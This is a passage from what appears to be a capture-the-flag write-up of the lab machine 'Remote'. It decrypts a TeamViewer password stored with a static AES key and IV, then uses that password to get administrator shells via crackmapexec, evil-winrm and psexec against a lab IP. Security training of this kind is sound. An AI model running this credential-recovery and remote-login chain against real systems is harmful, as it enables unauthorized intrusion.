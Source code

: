
It’s using AES128 in CBC mode with a static key and iv. I can easily recreate
this in a few lines of Python:

    
    
    #!/usr/bin/env python3
    
    from Crypto.Cipher import AES
    
    key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 
                        19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 
                        126, 141, 55, 107, 38, 57, 78, 91])
    
    aes = AES.new(key, AES.MODE_CBC, IV=iv)
    password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")
    
    print(f"[+] Found password: {password}")
    

Running it finds a password:

    
    
    root@kali# python3 decrypt_tvpass.py 
    [+] Found password: !R3m0te!
    

### Shell

That password happens to work for the administrator account on Remote:

    
    
    root@kali# crackmapexec smb 10.10.10.180 -u administrator -p '!R3m0te!'
    SMB         10.10.10.180    445    REMOTE           [*] Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:REMOTE) (signing:False) (SMBv1:False)
    SMB         10.10.10.180    445    REMOTE           [+] REMOTE\administrator:!R3m0te! (Pwn3d!)
    

The `(Pwn3d!)` shows this is an admin account, so I should be able to get a
shell.

I can use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

    
    
    root@kali# evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> whoami
    remote\administrator
    

I could also use `psexec.py`:

    
    
    root@kali# psexec.py 'administrator:!R3m0te!@10.10.10.180'
    Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation
    